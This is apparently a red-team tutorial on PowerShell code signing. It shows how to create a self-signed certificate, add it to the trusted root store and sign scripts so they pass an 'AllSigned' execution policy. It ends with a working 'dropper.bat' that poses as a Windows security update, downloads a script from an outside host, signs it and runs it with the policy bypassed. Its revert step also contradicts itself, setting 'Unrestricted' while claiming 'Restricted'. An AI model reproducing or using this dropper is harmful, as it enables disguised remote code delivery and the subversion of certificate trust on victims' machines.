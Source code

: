 ### Create a Self-Signed Certificate for Code Signing

<br />

In PoweShell 3.0, the [New-SelfSifgnedCertificate](https://docs.microsoft.com/en-us/powershell/module/pkiclient/new-selfsignedcertificate?view=win10-ps) cmdlet was generating only SSL certificates that couldn’t be used to sign the driver and application code (unlike certificates generated by the MakeCert utility). In PowerShell 5 the new version of the New-SelfSifgnedCertificate
cmdlet can now be used to issue a Code Signing certificates.

<br />

#### Lets build our test script { my_posh_script.ps1 } - Open Notepad Copy/Paste/Save it
```
# Malicious Code to execute
write-host "Just to test IF certificate sign was worked.." -ForeGroundColor green -BackGroundColor black
Start-Sleep -Seconds 3

```
<br />

#### Lets set 'Target' PS Execution Policy to 'AllSigned' to test the script (no need admin rigths)
`Set-ExecutionPolicy AllSigned -Scope CurrentUser`
![drrr](https://user-images.githubusercontent.com/23490060/72698984-6cf18480-3b3e-11ea-8c93-81b5ae68a9d6.png)

<br />

#### Lets Run our Script (With PS ExecutionPolicy set to 'AllSigned')
[AllSigned = Requires that all scripts and files are signed by a trusted publisher, including scripts written on local computer.](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-executionpolicy?view=powershell-7)
![sd11](https://user-images.githubusercontent.com/23490060/72687408-6a1e7180-3af5-11ea-8d14-c0ffa221468d.png)

<br />


#### To create a self-signed certificate for signing the application code (my_posh_script.ps1), run the command:
```
$cert = New-SelfSignedCertificate -Subject "My Code Signing Certificate" -Type CodeSigningCert -CertStoreLocation cert:\LocalMachine\My
```
![sdr](https://user-images.githubusercontent.com/23490060/72689217-0dc44d80-3b07-11ea-98f6-1acadb0615b3.png)

<br />

#### Let’s try to sign our PowerShell script (my_posh_script.ps1) using this certificate:
```
Set-AuthenticodeSignature -FilePath $env:userprofile\Desktop\my_posh_script.ps1 -Certificate $cert
```
![fdr](https://user-images.githubusercontent.com/23490060/72689232-3cdabf00-3b07-11ea-9ba7-ff830fca7356.png)

**Remark:** f you are receiving an **'UnknownError'** warning when executing the command, this means that **'the certificate is not trusted'**.
Because it is located in the **'user’s personal certificates store'** To open the certificate store press: Windows+R -> `certlm.msc`.
![sd3](https://user-images.githubusercontent.com/23490060/72686272-bfa15100-3aea-11ea-9f1a-7ae2e2cb0cb2.png)

<br />

#### We need to move our certificate to the 'trusted root certificates' store
![sd4](https://user-images.githubusercontent.com/23490060/72686277-dba4f280-3aea-11ea-9332-9e8c274bb9fe.png)
![sd5](https://user-images.githubusercontent.com/23490060/72686281-e52e5a80-3aea-11ea-96a6-a11bf6e8e8f3.png)
![sd6](https://user-images.githubusercontent.com/23490060/72686284-ec556880-3aea-11ea-9af0-3e43c4ea8fa1.png)

<br />

#### After that, you can sign your PowerShell script with this self-signed certificate.
```
Set-AuthenticodeSignature -FilePath $env:userprofile\Desktop\my_posh_script.ps1 -Certificate $cert
```
![dsf](https://user-images.githubusercontent.com/23490060/72689414-1158d400-3b09-11ea-9d6a-449a224c1952.png)
#### After the script beeing signed, it will be append one certificate {code block} inside the PS script:
![po1](https://user-images.githubusercontent.com/23490060/72687557-d2ba1e00-3af6-11ea-840b-702ccbe4bc73.png)
#### Running the script with PS Execution-Policy set to 'AllSigned'
[AllSigned. Requires that all scripts and files are signed by a trusted publisher, including scripts written on local computer.](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-executionpolicy?view=powershell-7)
![sdff](https://user-images.githubusercontent.com/23490060/72687601-6a1f7100-3af7-11ea-8f95-9d611d8867b2.png)

---

<br />

**Remark:** After beeing signed, the PS script can not be changed under the risk of breaking cert code block

**Remark:** Remmenber that this certificate its only valid for the Local Machine (current PC) were it was been stored..
That meens if we port the PS script to a remote machine it will not execute, because remote machine does not contain
this certificate in there certificate store ...

<br />

#### Revert Target System to 'Default' Settings. (non admin privs requiered)
`cmd /c echo Y | powershell Set-ExecutionPolicy Restricted -Scope CurrentUser`
![fin](https://user-images.githubusercontent.com/23490060/72699309-ae366400-3b3f-11ea-9397-fc9c2510f907.png)

---

<br />

This next step shows us how this technic can be abused (PS Execution Policy bypass) to remote Download/Execute our PS Script, even if target system is config to Only run digitally Signed PS scripts .. It will download and execute him ..

<br />

#### Batch (dropper.bat) Automation Example:
```
@echo off
color 03
title Cumulative Security Update KB4524147

echo [1] Set Target PS Execution Policy to 'AllSigned' to test script.
cmd /c echo Y | powershell Set-ExecutionPolicy AllSigned -Scope CurrentUser
timeout /T 2 >nul

echo [2] Downloading our PS script to target 'tmp' remote folder.
powershell -C (New-Object Net.WebClient).DownloadFile('http://192.168.1.71/my_posh_script.ps1', '$env:tmp\my_posh_script.ps1')
timeout /T 2 >nul

echo [3] Digitally sign Our Downloaded PS script (my_posh_script.ps1)
:: Code to digitally sign Our Downloaded PS script (my_posh_script.ps1) -> { This certificate expires in six months }
powershell $cert = New-SelfSignedCertificate -Subject "My_Code_Signing_Certificate" -FriendlyName "SsaRedTeam" -NotAfter (Get-Date).AddMonths(6) -Type CodeSigningCert -CertStoreLocation cert:\LocalMachine\My;Move-Item -Path $cert.PSPath -Destination "Cert:\LocalMachine\Root";Set-AuthenticodeSignature -FilePath $env:tmp\my_posh_script.ps1 -Certificate $cert
timeout /T 2 >nul

echo [4] Executing our Downloaded script and bypass user intervention
cd %tmp% && cmd /c echo A | powershell -Execution Bypass -NoProfile -File my_posh_script.ps1
pause


echo [i] Reverting %userdomain% to Previous State (before dropper.bat exec)
timeout /T 2 >nul
cmd /c echo Y | powershell Set-ExecutionPolicy Unrestricted -Scope CurrentUser
echo [i] PowerShell Execution Policy Set to: 'Restricted' ..
cd %tmp% && del /F /Q my_posh_script.ps1
echo [i] my_posh_script.ps1 deleted from: %tmp% ..
timeout /T 2 >nul
echo [i] Remmenber to delete the 'certificate' from 'certlm.msc' cert store ..
pause
```

<br />

**Remark:** This batch script must be executed with **admin privileges**<br />
**Remark:** This Dropper.bat can **Download-PS-Script/Build-Cert/Sign-PS-Script/Execute-PS-Script** because the Policy
its set by Default to powershell Scripts Only (this policy does not affects batch scripts from running and executing all of this)..
![dff](https://user-images.githubusercontent.com/23490060/72754958-28f39380-3bc1-11ea-8eb8-d2c61351ba14.png)

<br />

### Final Notes:
- 1º - This Batch script will revert target machine to previous state, by setting the PS policy<br />
       to **'Restricted'** (default) and by deleting **'my_posh_script.ps1'** from **%tmp%** remote folder ..
- 2º - Remmenber to delete the certificate from **certlm.msc** cert store (LocalMachine\Root) ..<br />
**{ For easy find in the cert store, I have set the certificate -FriendlyName as "SsaRedTeam" }**
